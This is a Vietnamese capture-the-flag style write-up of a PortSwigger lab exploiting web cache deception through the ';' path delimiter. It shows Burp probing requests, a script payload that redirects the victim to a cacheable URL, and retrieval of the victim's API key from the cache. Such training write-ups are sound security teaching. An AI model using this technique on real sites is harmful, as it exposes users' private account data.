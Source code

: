 # Write-up: Exploiting path delimiters for web cache deception

### Tổng quan
Khai thác lỗ hổng web cache deception bằng cách sử dụng ký tự phân cách đường dẫn `;` để lừa hệ thống cache lưu trữ trang `/my-account` của tài khoản `carlos`, lấy API key của `carlos`, và submit key để hoàn thành lab.

### Mục tiêu 
- Khai thác web cache deception thông qua ký tự phân cách `;` để lấy API key của tài khoản `carlos` và submit key để hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Community
- Firefox Browser
- Exploit Server (PortSwigger)

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Đăng nhập tài khoản `wiener`:`peter`, quan sát yêu cầu:
    `GET /my-account`
    - Thử thêm phần mở rộng đường dẫn:
        `GET /my-account/abc`
        - **Phản hồi**: `404 Not Found`, cho thấy ký tự `/` không khả thi để thao túng cache:
        ![not](./images/1_not-found.png)

- Dò ký tự đặc biệt bằng Burp Intruder:
    `GET /my-account§§abc.js`
    - **Kết quả**: Ký tự `;` và `?` được server chấp nhận:
        ![delimiter](./images/2_delimiter.png)

- Kiểm tra cache với ký tự `;`:
    `GET /my-account;abc.js`
    - Lần 1: **Phản hồi**: `X-Cache: miss`, nội dung chưa được cache.
        ![mis](./images/4_miss.png)
    - Lần 2: **Phản hồi**: `X-Cache: hit`, xác nhận hệ thống cache lưu trữ nội dung /my-account;abc.js
        ![hit](./images/5_hit.png)
    - **Quan sát**: Hệ thống cache xử lý `/my-account;abc.js` như file tĩnh, lưu trữ nội dung trang `/my-account`, gợi ý khả năng web cache deception.

2. **Khai thác (Exploitation)**
- Sử dụng Exploit Server để lừa nạn nhân (carlos) truy cập URL:
    ```javascript
    <script>document.location="https://lab-id.web-security-academy.net/my-account;abc.js"</script> 
    ```
    - Lưu payload vào body của Exploit Server và gửi tới nạn nhân qua chức năng "Deliver exploit to victim":
        ![body](./images/3_body.png)

- Kiểm tra cache để lấy nội dung trang `/my-account` của `carlos`:
    `GET /my-account;abc.js`
    - `Phản hồi`: `X-Cache: hit`, trả về trang `/my-account` của `carlos`, chứa API key `bBHPLaaDPXqqz7cGtUPWqnAhyblRQmQA`:
        ![api](./images/6_api.png)

- Submit API key `bBHPLaaDPXqqz7cGtUPWqnAhyblRQmQA` qua chức năng submit của lab
    - **Phản hồi**: Lab hoàn thành:
        ![solved](./images/7_solved.png)
        
- Giải thích: Lỗ hổng web cache deception xảy ra do hệ thống cache sai lầm lưu trữ trang `/my-account` như file tĩnh khi thêm `;abc.js`, cho phép truy xuất API key của carlos mà không cần xác thực.

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng web cache deception bằng cách sử dụng ký tự phân cách ; để lừa hệ thống cache lưu trữ trang nhạy cảm.
- Nhận thức tầm quan trọng của việc kiểm tra và làm sạch ký tự phân cách trong URL để ngăn chặn web cache deception.

### Tài liệu tham khảo
- PortSwigger: Web Cache Deception

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác web cache deception thông qua ký tự phân cách ; để lấy API key của người dùng, và hiểu cách bảo vệ hệ thống cache khỏi các cuộc tấn công tương tự. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 7/2025.*